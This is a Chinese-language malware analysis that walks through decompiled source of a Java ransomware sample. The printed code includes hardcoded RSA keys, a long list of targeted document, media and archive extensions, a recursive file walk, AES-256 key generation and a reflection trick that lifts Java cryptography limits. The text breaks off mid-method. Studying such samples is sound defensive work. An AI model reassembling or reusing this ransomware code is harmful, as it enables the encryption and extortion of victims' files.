



Author:wnagzihxa1n
E-Mail:wnagzihxa1n@gmail.com
这是一个Java写的勒索软件，源码托管在Github上
在拿到样本之后，我们使用jdgui载入
找到入口main函数
公钥和私钥，加密方式目测非对称加密或者说其中某一环节利用到了非对称加密
private static final String PubicKey = "MFwwDQYJKoZIhvcNAQEBBQADSwAwSAJBAJCw1HHQooCFGsGhtxNrsdS6dDq5jtfHqqLInCj7qFlDaD/Sll5+BAUjV0GU/c+6PVyMKzmLrHh49eeGQy1ETN8CAwEAAQ==";
private static final String PrivateKey = "MIIBVAIBADANBgkqhkiG9w0BAQEFAASCAT4wggE6AgEAAkEAkLDUcdCigIUawaG3E2ux1Lp0OrmO18eqosicKPuoWUNoP9KWXn4EBSNXQZT9z7o9XIwrOYuseHj154ZDLURM3wIDAQABAkA9AnLx8tkye+2GTBwYEkcPvfcYc/mpPsXSkehW15Zq3IALx3Kr5GgKGOaB2FK6PU0QzEPQbNJXdA5ZPjwTDcQBAiEA1/zINRVlrLpw2HPfqsYQ8ZSDuG2rVUUKKmKgJQXeQ98CIQCrfsw2+VKOaFoJm5BpVxIT5nsE8CXn4fr/WSFuklMXAQIgTKWnAreCKmbLTvTn5bl+H8zdZaB9kbf7YIk5XYoUky8CIQCL2ccnPYK5ZxelphrKDJtNZzMC/+OpiXtqKIE+7kycAQIgRK/DUhWUgSQV5u7VoCHDyLPCntjFMGBsg7Wi1uq+EDM=";
这年头勒索软件要是只有对称加密还是不要出来混了
入口调用本类Processing()方法，传入两个参数toSearch和attack，都是String类型，第一个参数是路径，第二个参数表示是要执行加密还是解密
public static void main(String[] args) throws RansomwareException
{
Processing(args[0], args[1]);
}
Processing()方法，通过一个分支语句判断执行的是加密还是解密
private static void Processing(String toSearch, String attack) throws RansomwareException
{
RansomProcess p = new RansomProcess(toSearch);
if (attack.equalsIgnoreCase("ENCRYPT")) {
p.StartEncryptProcess("MFwwDQYJKoZIhvcNAQEBBQADSwAwSAJBAJCw1HHQooCFGsGhtxNrsdS6dDq5jtfHqqLInCj7qFlDaD/Sll5+BAUjV0GU/c+6PVyMKzmLrHh49eeGQy1ETN8CAwEAAQ==");
} else if (attack.equalsIgnoreCase("DECRYPT")) {
p.StartDecryptProcess("MIIBVAIBADANBgkqhkiG9w0BAQEFAASCAT4wggE6AgEAAkEAkLDUcdCigIUawaG3E2ux1Lp0OrmO18eqosicKPuoWUNoP9KWXn4EBSNXQZT9z7o9XIwrOYuseHj154ZDLURM3wIDAQABAkA9AnLx8tkye+2GTBwYEkcPvfcYc/mpPsXSkehW15Zq3IALx3Kr5GgKGOaB2FK6PU0QzEPQbNJXdA5ZPjwTDcQBAiEA1/zINRVlrLpw2HPfqsYQ8ZSDuG2rVUUKKmKgJQXeQ98CIQCrfsw2+VKOaFoJm5BpVxIT5nsE8CXn4fr/WSFuklMXAQIgTKWnAreCKmbLTvTn5bl+H8zdZaB9kbf7YIk5XYoUky8CIQCL2ccnPYK5ZxelphrKDJtNZzMC/+OpiXtqKIE+7kycAQIgRK/DUhWUgSQV5u7VoCHDyLPCntjFMGBsg7Wi1uq+EDM=");
} else {
throw new RansomwareException("Mismatched Values Try again with correct one");
}
}
加密用公钥，解密用私钥，这里看起来很乱的样子，其实这是反编译器直接把字符串显示在函数里了，前面有这俩字符串的变量定义，所以原来的代码应该是这样写的
if (attack.equalsIgnoreCase("ENCRYPT")) {
p.StartEncryptProcess(PubicKey);
} else if (attack.equalsIgnoreCase("DECRYPT")) {
p.StartDecryptProcess(PrivateKey);
} else {
throw new RansomwareException("Mismatched Values Try again with correct one");
}
在这之前会处理传入的toSearch变量，这个是要加密的文件夹路径
RansomProcess p = new RansomProcess(toSearch);
RansomProcess类代码不长，都是这些catch的代码

刚刚的构造方法
public RansomProcess(String PathtoFind)
{
this.PathtoFind = PathtoFind;
}
同时有无参构造方法，会获取默认的路径
public RansomProcess()
{
this.PathtoFind = getDefaultPath();
}
默认加密路径
private String getDefaultPath()
{
String path = System.getProperty("user.dir");
return path;
}
再回到APP类，当我们的第二个参数为Encrypt的时候，会执行加密
p.StartEncryptProcess(PubicKey);
如果是Decrypt，会执行解密
p.StartDecryptProcess(PrivateKey);
我们先来看加密过程

先获取加密路径下的文件列表
TreeMap<String, HashMap<String, String>> containsFilters = new SearchDirectory(this.PathtoFind).GetFileMap();
而我们打开这个类，发现出错了

解决办法如下
效果如下

这个类就是获取目标路径的所有文件，然后存储在一个HashMap容器里
首先是各种文件后缀
private static final String DOC = "doc";
private static final String DOCX = "docx";
private static final String LOG = "log";
private static final String MSG = "msg";
private static final String ODT = "odt";
private static final String PAGES = "pages";
private static final String RTF = "rtf";
private static final String TEX = "tex";
private static final String TXT = "txt";
private static final String WPD = "wpd";
private static final String WPS = "wps";
private static final String HWP = "hwp";
private static final String CSV = "csv";
private static final String DAT = "dat";
private static final String GBR = "gbr";
private static final String GED = "ged";
private static final String KEY = "key";
private static final String KEYCHAIN = "keychain";
private static final String PPS = "pps";
private static final String PPT = "ppt";
private static final String PPTX = "pptx";
private static final String SDF = "sdf";
private static final String TAR = "tar";
private static final String TAX2012 = "tax2012";
private static final String TAX2014 = "tax2014";
private static final String VCF = "vcf";
private static final String XML = "xml";
private static final String ALF = "alf";
private static final String IFF = "iff";
private static final String M3U = "m3u";
private static final String M4A = "m4a";
private static final String MID = "mid";
private static final String MP3 = "mp3";
private static final String MPA = "mpa";
private static final String RA = "ra";
private static final String WAV = "wav";
private static final String WMA = "wma";
private static final String G32 = "3g2";
private static final String G3P = "3gp";
private static final String ASF = "asf";
private static final String ASX = "asx";
private static final String AVI = "avi";
private static final String FLV = "flv";
private static final String M4V = "m4v";
private static final String MOV = "mov";
private static final String MP4 = "mp4";
private static final String MPG = "mpg";
private static final String RM = "rm";
private static final String SRT = "srt";
private static final String SWF = "swf";
private static final String VOB = "vob";
private static final String WMV = "wmv";
private static final String D3M = "3dm";
private static final String D3S = "3ds";
private static final String MAX = "max";
private static final String OBJ = "obj";
private static final String BMP = "bmp";
private static final String DDA = "dda";
private static final String GIF = "gif";
private static final String JPG = "jpg";
private static final String PNG = "png";
private static final String PSD = "psd";
private static final String PSIMAGE = "pspimage";
private static final String TGA = "tga";
private static final String THM = "thm";
private static final String TIF = "tif";
private static final String TIFF = "tiff";
private static final String YUV = "yuv";
private static final String AI = "ai";
private static final String EPS = "eps";
private static final String PS = "ps";
private static final String SVG = "svg";
private static final String INDD = "indd";
private static final String PCT = "pct";
private static final String PDF = "pdf";
private static final String XLR = "xlr";
private static final String XLS = "xls";
private static final String XLSX = "xlsx";
private static final String Z7 = "7z";
private static final String RAR = "rar";
private static final String ZIP = "zip";
private static final String TARGZ = "tar.gz";
private static final String APK = "apk";
private static final String APP = "app";
private static final String COM = "com";
private static final String EXE = "exe";
private static final String ASP = "asp";
private static final String ASPX = "apsx";
private static final String CSS = "css";
private static final String HTM = "htm";
private static final String HTML = "html";
private static final String JS = "js";
private static final String JSP = "jsp";
private static final String PHP = "php";
private static final String XHTML = "xhtml";
private static final String FNT = "fnt";
private static final String FONT = "font";
private static final String OFT = "oft";
private static final String TTF = "ttf";
private static final String CRDOWNLAOD = "crdownload";
private static final String ICS = "ics";
private static final String MSI = "msi";
private static final String PART = "part";
private static final String TORRENT = "torrent";
唯独没有后缀的文件作者没有考虑
然后定义了一堆HashMap，和前面的后缀名对应，键和键值暂时不清楚是什么
private final HashMap<String, String> docMap;
private final HashMap<String, String> docxMap;
private final HashMap<String, String> logMap;
private final HashMap<String, String> msgMap;
private final HashMap<String, String> odtMap;
private final HashMap<String, String> pagesMap;
private final HashMap<String, String> rtfMap;
private final HashMap<String, String> texMap;
private final HashMap<String, String> txtMap;
private final HashMap<String, String> wpdMap;
private final HashMap<String, String> wpsMap;
private final HashMap<String, String> hwpMap;
private final HashMap<String, String> csvMap;
private final HashMap<String, String> datMap;
private final HashMap<String, String> gbrMap;
private final HashMap<String, String> gedMap;
private final HashMap<String, String> keyMap;
private final HashMap<String, String> keychainMap;
private final HashMap<String, String> ppsMap;
private final HashMap<String, String> pptMap;
private final HashMap<String, String> pptxMap;
private final HashMap<String, String> sdfMap;
private final HashMap<String, String> tarMap;
private final HashMap<String, String> tax2012Map;
private final HashMap<String, String> tax2014Map;
private final HashMap<String, String> vcfMap;
private final HashMap<String, String> xmlMap;
private final HashMap<String, String> alfMap;
private final HashMap<String, String> iffMap;
private final HashMap<String, String> m3uMap;
private final HashMap<String, String> m4aMap;
private final HashMap<String, String> midMap;
private final HashMap<String, String> mp3Map;
private final HashMap<String, String> mpaMap;
private final HashMap<String, String> raMap;
private final HashMap<String, String> wavMap;
private final HashMap<String, String> wmaMap;
private final HashMap<String, String> g2Map;
private final HashMap<String, String> gpMap;
private final HashMap<String, String> asfMap;
private final HashMap<String, String> asxMap;
private final HashMap<String, String> aviMap;
private final HashMap<String, String> flvlvMap;
private final HashMap<String, String> m4vMap;
private final HashMap<String, String> movMap;
private final HashMap<String, String> mp4Map;
private final HashMap<String, String> mpgMap;
private final HashMap<String, String> rmMap;
private final HashMap<String, String> srtMap;
private final HashMap<String, String> swfMap;
private final HashMap<String, String> vobMap;
private final HashMap<String, String> wmvMap;
private final HashMap<String, String> d3mMap;
private final HashMap<String, String> d3sMap;
private final HashMap<String, String> maxMap;
private final HashMap<String, String> objMap;
private final HashMap<String, String> bmpMap;
private final HashMap<String, String> ddaMap;
private final HashMap<String, String> gifMap;
private final HashMap<String, String> jpgMap;
private final HashMap<String, String> pngMap;
private final HashMap<String, String> psdMap;
private final HashMap<String, String> pspimageMap;
private final HashMap<String, String> tgaMap;
private final HashMap<String, String> thmMap;
private final HashMap<String, String> tifMap;
private final HashMap<String, String> tiffMap;
private final HashMap<String, String> yuvMap;
private final HashMap<String, String> aiMap;
private final HashMap<String, String> epsMap;
private final HashMap<String, String> psMap;
private final HashMap<String, String> svgMap;
private final HashMap<String, String> inddMap;
private final HashMap<String, String> pctMap;
private final HashMap<String, String> pdfMap;
private final HashMap<String, String> xlrMap;
private final HashMap<String, String> xlsMap;
private final HashMap<String, String> xlsxMap;
private final HashMap<String, String> z7Map;
private final HashMap<String, String> rarMap;
private final HashMap<String, String> zipMap;
private final HashMap<String, String> targzMap;
private final HashMap<String, String> apkMap;
private final HashMap<String, String> appMap;
private final HashMap<String, String> comMap;
private final HashMap<String, String> exeMap;
private final HashMap<String, String> aspMap;
private final HashMap<String, String> aspxMap;
private final HashMap<String, String> cssMap;
private final HashMap<String, String> htmMap;
private final HashMap<String, String> htmlMap;
private final HashMap<String, String> jsMap;
private final HashMap<String, String> jspMap;
private final HashMap<String, String> phpMap;
private final HashMap<String, String> xhtmlMap;
private final HashMap<String, String> fntMap;
private final HashMap<String, String> fontMap;
private final HashMap<String, String> oftMap;
private final HashMap<String, String> ttfMap;
private final HashMap<String, String> crdownloadMap;
private final HashMap<String, String> icsMap;
private final HashMap<String, String> msiMap;
private final HashMap<String, String> partMap;
private final HashMap<String, String> torrentMap;
最终返回的TreeMap和传入的路径
private final TreeMap<String, HashMap<String, String>> containsFilters;
private String PathtoFind;
来看构造函数，传入路径，创建容器对象
public SearchDirectory(final String PathtoFind) {
super();
this.docMap = new HashMap<String, String>();
this.docxMap = new HashMap<String, String>();
this.logMap = new HashMap<String, String>();
this.msgMap = new HashMap<String, String>();
this.odtMap = new HashMap<String, String>();
this.pagesMap = new HashMap<String, String>();
this.rtfMap = new HashMap<String, String>();
this.texMap = new HashMap<String, String>();
this.txtMap = new HashMap<String, String>();
this.wpdMap = new HashMap<String, String>();
this.wpsMap = new HashMap<String, String>();
this.hwpMap = new HashMap<String, String>();
this.csvMap = new HashMap<String, String>();
this.datMap = new HashMap<String, String>();
this.gbrMap = new HashMap<String, String>();
this.gedMap = new HashMap<String, String>();
this.keyMap = new HashMap<String, String>();
this.keychainMap = new HashMap<String, String>();
this.ppsMap = new HashMap<String, String>();
this.pptMap = new HashMap<String, String>();
this.pptxMap = new HashMap<String, String>();
this.sdfMap = new HashMap<String, String>();
this.tarMap = new HashMap<String, String>();
this.tax2012Map = new HashMap<String, String>();
this.tax2014Map = new HashMap<String, String>();
this.vcfMap = new HashMap<String, String>();
this.xmlMap = new HashMap<String, String>();
this.alfMap = new HashMap<String, String>();
this.iffMap = new HashMap<String, String>();
this.m3uMap = new HashMap<String, String>();
this.m4aMap = new HashMap<String, String>();
this.midMap = new HashMap<String, String>();
this.mp3Map = new HashMap<String, String>();
this.mpaMap = new HashMap<String, String>();
this.raMap = new HashMap<String, String>();
this.wavMap = new HashMap<String, String>();
this.wmaMap = new HashMap<String, String>();
this.g2Map = new HashMap<String, String>();
this.gpMap = new HashMap<String, String>();
this.asfMap = new HashMap<String, String>();
this.asxMap = new HashMap<String, String>();
this.aviMap = new HashMap<String, String>();
this.flvlvMap = new HashMap<String, String>();
this.m4vMap = new HashMap<String, String>();
this.movMap = new HashMap<String, String>();
this.mp4Map = new HashMap<String, String>();
this.mpgMap = new HashMap<String, String>();
this.rmMap = new HashMap<String, String>();
this.srtMap = new HashMap<String, String>();
this.swfMap = new HashMap<String, String>();
this.vobMap = new HashMap<String, String>();
this.wmvMap = new HashMap<String, String>();
this.d3mMap = new HashMap<String, String>();
this.d3sMap = new HashMap<String, String>();
this.maxMap = new HashMap<String, String>();
this.objMap = new HashMap<String, String>();
this.bmpMap = new HashMap<String, String>();
this.ddaMap = new HashMap<String, String>();
this.gifMap = new HashMap<String, String>();
this.jpgMap = new HashMap<String, String>();
this.pngMap = new HashMap<String, String>();
this.psdMap = new HashMap<String, String>();
this.pspimageMap = new HashMap<String, String>();
this.tgaMap = new HashMap<String, String>();
this.thmMap = new HashMap<String, String>();
this.tifMap = new HashMap<String, String>();
this.tiffMap = new HashMap<String, String>();
this.yuvMap = new HashMap<String, String>();
this.aiMap = new HashMap<String, String>();
this.epsMap = new HashMap<String, String>();
this.psMap = new HashMap<String, String>();
this.svgMap = new HashMap<String, String>();
this.inddMap = new HashMap<String, String>();
this.pctMap = new HashMap<String, String>();
this.pdfMap = new HashMap<String, String>();
this.xlrMap = new HashMap<String, String>();
this.xlsMap = new HashMap<String, String>();
this.xlsxMap = new HashMap<String, String>();
this.z7Map = new HashMap<String, String>();
this.rarMap = new HashMap<String, String>();
this.zipMap = new HashMap<String, String>();
this.targzMap = new HashMap<String, String>();
this.apkMap = new HashMap<String, String>();
this.appMap = new HashMap<String, String>();
this.comMap = new HashMap<String, String>();
this.exeMap = new HashMap<String, String>();
this.aspMap = new HashMap<String, String>();
this.aspxMap = new HashMap<String, String>();
this.cssMap = new HashMap<String, String>();
this.htmMap = new HashMap<String, String>();
this.htmlMap = new HashMap<String, String>();
this.jsMap = new HashMap<String, String>();
this.jspMap = new HashMap<String, String>();
this.phpMap = new HashMap<String, String>();
this.xhtmlMap = new HashMap<String, String>();
this.fntMap = new HashMap<String, String>();
this.fontMap = new HashMap<String, String>();
this.oftMap = new HashMap<String, String>();
this.ttfMap = new HashMap<String, String>();
this.crdownloadMap = new HashMap<String, String>();
this.icsMap = new HashMap<String, String>();
this.msiMap = new HashMap<String, String>();
this.partMap = new HashMap<String, String>();
this.torrentMap = new HashMap<String, String>();
this.containsFilters = new TreeMap<String, HashMap<String, String>>();
this.PathtoFind = PathtoFind;
this.AddContainFilter();
this.SavAllFilters();
}
后面这几句，初始化最总返回的容器对象，初始化路径变量，然后调用AddContainFilter()和SavAllFilters()两个方法
this.containsFilters = new TreeMap<String, HashMap<String, String>>();
this.PathtoFind = PathtoFind;
this.AddContainFilter();
this.SavAllFilters();
AddContainFilter()方法，先将各种后缀文件的HashMap存储到containsFilters里，那么这里键和键值就可以知道是什么了，键是后缀名，键值是对应的HashMap
private void AddContainFilter() {
this.containsFilters.put("doc", this.docMap);
this.containsFilters.put("docx", this.docxMap);
this.containsFilters.put("log", this.logMap);
this.containsFilters.put("msg", this.msgMap);
this.containsFilters.put("odt", this.odtMap);
this.containsFilters.put("pages", this.pagesMap);
this.containsFilters.put("rtf", this.rtfMap);
this.containsFilters.put("tex", this.texMap);
this.containsFilters.put("txt", this.txtMap);
this.containsFilters.put("wpd", this.wpdMap);
this.containsFilters.put("wps", this.wpsMap);
this.containsFilters.put("hwp", this.hwpMap);
this.containsFilters.put("csv", this.csvMap);
this.containsFilters.put("dat", this.datMap);
this.containsFilters.put("gbr", this.gbrMap);
this.containsFilters.put("ged", this.gedMap);
this.containsFilters.put("key", this.keyMap);
this.containsFilters.put("keychain", this.keychainMap);
this.containsFilters.put("pps", this.ppsMap);
this.containsFilters.put("ppt", this.pptMap);
this.containsFilters.put("pptx", this.pptxMap);
this.containsFilters.put("sdf", this.sdfMap);
this.containsFilters.put("tar", this.tarMap);
this.containsFilters.put("tax2012", this.tax2012Map);
this.containsFilters.put("tax2014", this.tax2014Map);
this.containsFilters.put("vcf", this.vcfMap);
this.containsFilters.put("xml", this.xmlMap);
this.containsFilters.put("alf", this.alfMap);
this.containsFilters.put("iff", this.iffMap);
this.containsFilters.put("m3u", this.m3uMap);
this.containsFilters.put("m4a", this.m4aMap);
this.containsFilters.put("mid", this.midMap);
this.containsFilters.put("mp3", this.mp3Map);
this.containsFilters.put("mpa", this.mpaMap);
this.containsFilters.put("ra", this.raMap);
this.containsFilters.put("wav", this.wavMap);
this.containsFilters.put("wma", this.wmaMap);
this.containsFilters.put("3g2", this.g2Map);
this.containsFilters.put("3gp", this.gpMap);
this.containsFilters.put("asf", this.asfMap);
this.containsFilters.put("asx", this.asxMap);
this.containsFilters.put("avi", this.aviMap);
this.containsFilters.put("flv", this.flvlvMap);
this.containsFilters.put("m4a", this.m4vMap);
this.containsFilters.put("mov", this.movMap);
this.containsFilters.put("mp4", this.mp4Map);
this.containsFilters.put("mpg", this.mpgMap);
this.containsFilters.put("rm", this.rmMap);
this.containsFilters.put("srt", this.srtMap);
this.containsFilters.put("swf", this.swfMap);
this.containsFilters.put("vob", this.vobMap);
this.containsFilters.put("wmv", this.wmvMap);
this.containsFilters.put("3dm", this.d3mMap);
this.containsFilters.put("3ds", this.d3sMap);
this.containsFilters.put("max", this.maxMap);
this.containsFilters.put("obj", this.objMap);
this.containsFilters.put("bmp", this.bmpMap);
this.containsFilters.put("dda", this.ddaMap);
this.containsFilters.put("gif", this.gifMap);
this.containsFilters.put("jpg", this.jpgMap);
this.containsFilters.put("png", this.pngMap);
this.containsFilters.put("psd", this.psdMap);
this.containsFilters.put("pspimage", this.pspimageMap);
this.containsFilters.put("tga", this.tgaMap);
this.containsFilters.put("thm", this.thmMap);
this.containsFilters.put("tif", this.tifMap);
this.containsFilters.put("tiff", this.tiffMap);
this.containsFilters.put("yuv", this.yuvMap);
this.containsFilters.put("ai", this.aiMap);
this.containsFilters.put("eps", this.epsMap);
this.containsFilters.put("ps", this.psMap);
this.containsFilters.put("svg", this.svgMap);
this.containsFilters.put("indd", this.inddMap);
this.containsFilters.put("pct", this.pctMap);
this.containsFilters.put("pdf", this.pdfMap);
this.containsFilters.put("xlr", this.xlrMap);
this.containsFilters.put("xls", this.xlsMap);
this.containsFilters.put("xlsx", this.xlsxMap);
this.containsFilters.put("7z", this.z7Map);
this.containsFilters.put("rar", this.rarMap);
this.containsFilters.put("zip", this.zipMap);
this.containsFilters.put("tar.gz", this.targzMap);
this.containsFilters.put("apk", this.apkMap);
this.containsFilters.put("app", this.appMap);
this.containsFilters.put("com", this.comMap);
this.containsFilters.put("exe", this.exeMap);
this.containsFilters.put("asp", this.aspMap);
this.containsFilters.put("apsx", this.aspxMap);
this.containsFilters.put("css", this.cssMap);
this.containsFilters.put("htm", this.htmMap);
this.containsFilters.put("html", this.htmlMap);
this.containsFilters.put("js", this.jsMap);
this.containsFilters.put("jsp", this.jspMap);
this.containsFilters.put("php", this.phpMap);
this.containsFilters.put("xhtml", this.xhtmlMap);
this.containsFilters.put("fnt", this.fntMap);
this.containsFilters.put("font", this.fontMap);
this.containsFilters.put("oft", this.oftMap);
this.containsFilters.put("ttf", this.ttfMap);
this.containsFilters.put("crdownload", this.crdownloadMap);
this.containsFilters.put("ics", this.icsMap);
this.containsFilters.put("msi", this.msiMap);
this.containsFilters.put("part", this.partMap);
this.containsFilters.put("torrent", this.torrentMap);
}
然后SavAllFilters()方法
private void SavAllFilters() {
try (final Stream<Path> paths = Files.walk(Paths.get(this.PathtoFind, new String[0]), new FileVisitOption[0])) {
final String extendsion;
final String FilePath;
paths.forEach(filePath -> {
if (Files.isRegularFile(filePath, new LinkOption[0])) {
System.out.println(filePath);
extendsion = FilenameUtils.getExtension(filePath.toString());
FilePath = FilenameUtils.removeExtension(filePath.toString());
this.SaveToMap(extendsion, FilePath);
}
return;
});
}
catch (IOException e) {
e.printStackTrace();
}
}
一开始这代码看得我有点懵逼，原谅我没见过世面，我是真的觉得这代码写的值得我学习
没搜到什么相关的资料，决定翻源码，这个方法在Paths类里面，get()方法会返回一个Path类型对象，本质上调用了getPath()方法，这个方法能搜到的资料就相对多很多了
/**
* Converts a path string, or a sequence of strings that when joined form
* a path string, to a {@code Path}. If {@code more} does not specify any
* elements then the value of the {@code first} parameter is the path string
* to convert. If {@code more} specifies one or more elements then each
* non-empty string, including {@code first}, is considered to be a sequence
* of name elements (see {@link Path}) and is joined to form a path string.
* The details as to how the Strings are joined is provider specific but
* typically they will be joined using the {@link FileSystem#getSeparator
* name-separator} as the separator. For example, if the name separator is
* "{@code /}" and {@code getPath("/foo","bar","gus")} is invoked, then the
* path string {@code "/foo/bar/gus"} is converted to a {@code Path}.
* A {@code Path} representing an empty path is returned if {@code first}
* is the empty string and {@code more} does not contain any non-empty
* strings.
*
* <p> The {@code Path} is obtained by invoking the {@link FileSystem#getPath
* getPath} method of the {@link FileSystems#getDefault default} {@link
* FileSystem}.
*
* <p> Note that while this method is very convenient, using it will imply
* an assumed reference to the default {@code FileSystem} and limit the
* utility of the calling code. Hence it should not be used in library code
* intended for flexible reuse. A more flexible alternative is to use an
* existing {@code Path} instance as an anchor, such as:
* <pre>
* Path dir = ...
* Path path = dir.resolve("file");
* </pre>
*
* @param first
* the path string or initial part of the path string
* @param more
* additional strings to be joined to form the path string
*
* @return the resulting {@code Path}
*
* @throws InvalidPathException
* if the path string cannot be converted to a {@code Path}
*
* @see FileSystem#getPath
*/
public static Path get(String first, String... more) {
return FileSystems.getDefault().getPath(first, more);
}
然后迭代，这里paths的类型Stream是Java 8的新特性，比Iterator强，最后将后缀名与去掉后缀名的路径传给SaveToMap(extendsion, FilePath)方法，这里会在控制台输出所有文件的路径
paths.forEach(filePath -> {
if (Files.isRegularFile(filePath, new LinkOption[0])) {
System.out.println(filePath);
extendsion = FilenameUtils.getExtension(filePath.toString());
FilePath = FilenameUtils.removeExtension(filePath.toString());
this.SaveToMap(extendsion, FilePath);
}
return;
});
至于Files.isRegularFile()方法所判断的类型，StackOverFlow上面的网友是这样回答的：
I figure rm -i is an alias, possibly rm -i. The "regular" part doesn't mean anything in particular, it only means that it's not a pipe, device, socket or anything other "special".
it means the file is not a symlink, pipe, rand, null, cpu, etc. Perhaps you have heard the linux philosophy everything is a text. This isn't literally true, but it suggests a dominant operational context where string processing tools can be applied to filesystem elements directly. In this case, it means that in a more literal fashion. To see the detection step in isolation, try the command file, as in file /etc/passwd or file /dev/null.
SaveToMap()方法非常长，700多行，这里看图比较好

没看懂的是为什么不直判断后缀名而是先执行hashcode()，可能是反编译器的问题，也可能是编译的问题，不过这个地方可能击中了jdgui的bug，通过判断后缀给n赋值，然后在第二个switch里面进行操作

迭代完返回，但是上面在创建对象的时候调用了GetFileMap()，在初始化完之后获取了containsFilters，这里包含了目标路径下所有文件的路径，后缀信息
public TreeMap<String, HashMap<String, String>> GetFileMap() {
return this.containsFilters;
}
在获取了目标路径下的文件信息后，设置迭代器，并定义一个key
final Set set = containsFilters.entrySet();
final Iterator iterator = set.iterator();
SecretKeySpec aesKey = null;
然后初始化key
aesKey = CryptoRansomware.GenKey();
GenKey()方法
public static SecretKeySpec GenKey() throws NoSuchAlgorithmException, RansomwareException, SQLException {
if (EmbeddedDatabase.CreateTable()) {
throw new RansomwareException("Already Encrypted And Stored To Embedded Database");
}
final KeyGenerator kgen = KeyGenerator.getInstance("AES");
kgen.init(256);
final SecretKey key = kgen.generateKey();
final byte[] aesKey = key.getEncoded();
final SecretKeySpec aeskeySpec = new SecretKeySpec(aesKey, "AES");
return aeskeySpec;
}
类CryptoRansomware有一个static代码块，在第一次加载的时候执行一次，初始化了一个byte数组，调用了removeCryptographyRestrictions()方法
static {
CryptoRansomware.ivBytes = new byte[] { 21, 20, 19, 18, 17, 16, 9, 8, 7, 6, 5, 4, 3, 2, 1, 0 };
removeCryptographyRestrictions();
}
removeCryptographyRestrictions()方法
private static void removeCryptographyRestrictions() {
if (!isRestrictedCryptography()) {
System.out.println("Cryptography restrictions removal not needed");
return;
}
try {
final Class<?> jceSecurity = Class.forName("javax.crypto.JceSecurity");
final Class<?> cryptoPermissions = Class.forName("javax.crypto.CryptoPermissions");
final Class<?> cryptoAllPermission = Class.forName("javax.crypto.CryptoAllPermission");
final Field isRestrictedField = jceSecurity.getDeclaredField("isRestricted");
isRestrictedField.setAccessible(true);
final Field modifiersField = Field.class.getDeclaredField("modifiers");
modifiersField.setAccessible(true);
modifiersField.setInt(isRestrictedField, isRestrictedField.getModifiers() & 0xFFFFFFEF);
isRestrictedField.set(null, false);
